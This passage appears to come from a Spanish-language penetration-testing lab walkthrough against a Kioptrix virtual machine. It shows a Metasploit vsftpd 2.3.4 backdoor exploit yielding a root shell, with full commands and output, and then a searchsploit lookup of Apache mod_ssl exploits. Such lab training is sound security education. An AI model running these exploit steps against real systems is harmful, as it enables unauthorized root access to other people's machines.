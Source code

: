 ```sh
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Ahora sólo es cuestión de pasarle la información sobre el objetivo a atacar, en este caso `192.168.0.17` y ejecutar el exploit.

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.0.17
rhosts => 192.168.0.17
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.0.28:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.0.28:21 - USER: 331 Please specify the password.
[+] 192.168.0.28:21 - Backdoor service has been spawned, handling...
[+] 192.168.0.28:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.18:36673 -> 192.168.0.17:6200)

$ whoami
root
```

Hemos ganado acceso a la máquina.

#### Exploitdb

Aunque `Metasploit` posee una gran cantidad de exploits, existen otros repositorios y bases de datos que poseen más scripts disponibles. Uno de estos casos es el de `exploitdb`, esta es una base de datos que contiene una gran cantidad de herramientas para una gran cantidad de vulnerabilidades.

Ahora, recordando las advertencias dadas por `Nessus` durante la fase de identificación de vulnerabilidades sobre el servidor `Apache` de nuestra máquina de `Kioptrix`, podemos buscar posibles exploits que nos puedan servir.

A partir de la [información recolectada](https://gist.github.com/MrDahaniel/9254909c6131a83d1a8492ca725c0039#file-nikto-kioptrix) durante la primera fase del PenTesting, podemos buscar exploits para la versión del servidor `Apache`.

```sh
# Usando searchSploit, que es una parte de exploitdb podemos buscar
# exploits a partir de terminos de búsqueda
$ searchsploit apache 1.3 mod_ssl
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c'  | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.' | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.' | unix/remote/764.c
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Como podemos ver, tenemos "varias" opciones de exploits que pueden ser usados. En este caso usaremos, `OpenFuck.c`. Siguiendo las instrucciones presentes en el [repo](https://github.com/heltonWernik/OpenLuck) correspondiente. Tras compilar, sólo resta ejecutar el programa.
